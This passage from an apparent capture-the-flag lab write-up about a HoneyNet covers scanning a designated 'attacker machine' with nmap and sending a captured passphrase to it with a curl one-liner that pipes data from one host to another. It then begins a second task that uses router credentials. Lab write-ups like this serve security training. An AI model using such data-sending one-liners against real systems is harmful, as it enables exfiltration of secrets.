 Now that we have this data, we can send it to the attacker. 

First, we can enumerate the attacker machine using `nmap`:

```bash
nmap 123.45.67.100
```

This will reveal ports 80 and 22 are open:

![Attacker machine ports](./images/image7.png "Attacker machine ports")

To send the passphrase to the attacker machine, we can run the one-liner:

```bash
curl --data-raw "$(curl 10.1.1.10)" 123.45.67.100
```

You will get a response saying your data was "Received when not allowed," indicating success:

![Passphrase sent to attacker](./images/image8.png "Passphrase sent to attacker")

To check your work and acquire the token, you can open a web browser and navigate to https://[]()challenge.us/ and click "grade challenge" to get your token:

![Grading challenge](./images/image9.png "Grading challenge")

## Token 2

*There is a secret passphrase being sent in-between machines on the HoneyNet. To distract the attacker, identify the passphrase being exchanged and send it to the attacker machine.*

First, we need to identify the hosts that are communicating. To do this, we can `ssh` into the router using the provided credentials and run:
